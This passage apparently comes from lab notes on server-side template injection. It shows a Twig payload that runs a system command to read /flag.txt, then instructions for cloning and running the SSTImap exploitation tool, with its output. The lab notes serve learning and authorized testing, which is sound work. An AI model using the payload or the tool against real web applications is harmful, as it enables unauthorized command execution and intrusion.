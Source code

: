 ![](Pasted%20image%2020250303184814.png)

It is called `flag.txt` so I'll do the following:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

# SSTI Tools of the Trade

This section will showcase tools that can help us identify and exploit SSTI vulnerabilities.

## Tools of the Trade

The most popular tool for identifying and exploiting SSTI vulnerabilities is [tplmap](https://github.com/epinna/tplmap). However, tplmap is not maintained anymore and runs on the deprecated Python2 version. Therefore, we will use the more modern [SSTImap](https://github.com/vladko312/SSTImap) to aid the SSTI exploitation process. We can run it after cloning the repository and installing the required dependencies:

```shell
gitblanc@htb[/htb]$ git clone https://github.com/vladko312/SSTImap

gitblanc@htb[/htb]$ cd SSTImap

gitblanc@htb[/htb]$ pip3 install -r requirements.txt

gitblanc@htb[/htb]$ python3 sstimap.py 

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗ ║ ║ ║{║ _ __ ___ __ _ _ __
    ╚════╗ ╠════╗ ║ ║ ║ ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║ ║ ║ ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝ ╚═╝ ╚╦╝ |_| |_| |_|\__,_| .__/
                             │ | |
                                                |_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state, and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4
[-] SSTImap requires target URL (-u, --url), URLs/forms file (--load-urls / --load-forms) or interactive mode (-i, --interactive)
```

To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:
